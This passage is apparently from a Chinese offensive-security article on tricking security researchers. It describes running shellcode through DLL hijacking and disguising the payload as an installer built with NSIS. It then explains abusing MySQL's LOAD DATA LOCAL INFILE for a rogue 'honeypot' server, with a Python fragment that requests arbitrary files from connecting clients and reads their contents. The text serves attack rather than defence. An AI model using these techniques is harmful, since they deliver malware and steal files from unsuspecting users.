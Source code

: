 将conf.inf文件和wwwcomw.dll文件放入到和劫持的文件同一目录，点击运行即可执行shellcode

#### **NSIS制作安装包**

使用nsis可以将上述多个文件打包成一个安装包，并可伪装成任意软件。软件下载地址：https://www.pc6.com/softview/SoftView_14342.html 软件使用教程：https://www.cnblogs.com/modou/p/3573772.html

## **mysql蜜罐**

21年国家HW时，某知名社区官方账号就曾使用该方法进行钓鱼，在一篇分析投毒代码中留下Mysql蜜罐的账号密码，吸引好事者登录mysql蜜罐，窃取敏感信息。

### **LOAD DATA LOCAL INFILE**

LOAD DATA LOCAL INFILE 是 MySQL 中用于将数据从本地文件加载到数据库表中的命令。这个命令允许用户通过指定本地文件的路径将数据导入到数据库表中。

读取服务端上的文件内容存入表中：

```
load data infile "文件" into table "表名" fields terminated by '分隔符';

```

读取客户端上的文件内容存入表中：

```
load data local infile "文件" into table "表名" fields terminated by '分隔符';

```

查看LOAD DATA LOCAL INFILE 功能开关状态

```
show global variables like 'local_infile';

```

<br/> 将LOAD DATA LOCAL INFILE 功能打开

```
set global local_infile=1;

```

### **蜜罐**

利用代码伪造连接信息

<br/> 尝试读取文件信息

```
 if 'SET NAMES utf8' in res4:
                        conn.sendall("\x07\x00\x00\x01\x00\x00\x00\x02\x00\x00\x00")
                        res5 = conn.recv(9999)
                        if 'SET character_set_results=NULL' in res5:
                            conn.sendall("\x07\x00\x00\x01\x00\x00\x00\x02\x00\x00\x00")
                            conn.close()
                    else:
                        conn.close()
                else:
                    conn.close()
            else:
                conn.close()
        else:
            try:
                wantfile = chr(len(filename) + 1) + "\x00\x00\x01\xFB" + filename
                conn.sendall(wantfile)
                content = conn.recv(99999999)
                # print(len(content))
                conn.close()
                if len(content) &gt; 4:
                    if 'PFRO' in filename:
```
